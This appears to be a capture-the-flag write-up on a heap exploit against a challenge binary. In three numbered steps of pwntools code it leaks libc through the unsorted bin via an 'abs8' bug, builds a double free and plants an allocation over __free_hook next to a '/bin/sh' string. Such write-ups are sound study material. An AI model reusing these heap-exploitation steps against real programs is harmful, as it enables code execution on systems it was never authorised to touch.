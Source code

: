 1. leak libc via unsorted_bin using the `abs8()` bug.

   ```c
   # I do a lot of other unnecessary things here too
   for i in range(1): add(hash_to_str(0xd), b'backup')
   for i in range(7): add(hash_to_str(0xf), b'tcache')
   for i in range(1): add(hash_to_str(5), b'idk')
   add(hash_to_str(0), b'main_arena leaker')
   add(hash_to_str(0xe), b'prevent consolidation')
   heap_leak = unpack(view(0xf)[0][0][0x10:], 'all')
   heap_base = heap_leak - 0x1260
   delete(0xf)
   delete(0xd)
   delete(0)
   add(hash_to_str(-128), b'trigger abs8 bug')
   libc_leak = unpack(view(0)[0][-1], 'all')
   context.libc.address = libc_leak-0x1ebde0
   print(hex(heap_base))
   ```

    This has the added benefit of causing future `malloc(0x20)` calls to pull memory from the unsorted bin, which causes future `malloc(0x200)` allocations to be contiguous.

2. Allocate a few contiguous `malloc(0x200)` spaces in memory. Make sure that `hashtable[1]` points to somewhere in the middle of that contiguous space.
   Ensure that the tcache is filled. Free the contiguous space, creating a larger consolidated chunk in the unsorted bin. 

   ```c
   # At this point, tcache[size=0x210] has 6 pointers, small_bins[size=0x210] has one pointer (hashtable[0]), and unsorted_bins[0] has a 0x1e0 chunk that will be gradually consumed via malloc(0x20) calls. 
   for i in range(7): add(hash_to_str(0xf), b'tcache')
   for i in range(2): add(hash_to_str(9), b'aligned allocations')
   add(hash_to_str(1), b'aligned[2]')
   add(hash_to_str(8), b'padding')
   delete(0xf)
   delete(9)
   delete(1)
   ```

3. Use the `abs8` bug again to double free `hashtable[1]`. This works because `malloc` doesn't detect that the chunk at `hashtable[1]` is already a part of the larger chunk on the unsorted bin. `hashtable[1]` now exists in the tcache as well.

   ```c
   # len(tcache[size=0x210]) == 7; unsorted_bins has a 0x630 sized chunk, hashtable[0] points to unsorted_bins->fd+0x420.
   for i in range(6): add(hash_to_str(0xf), b'tcache')
   add(hash_to_str(-128), b'trigger abs8 bug')
   add(hash_to_str(7), b'pad')
   delete(0xf)
   for i in range(2): add(hash_to_str(0xf), b'tcache')
   delete(1)
   delete(0xf)
   add(hash_to_str(0xf), b'/bin/sh\0')
   add(pack(context.libc.sym.__free_hook)+pack(0), b'gotcha')
   ```
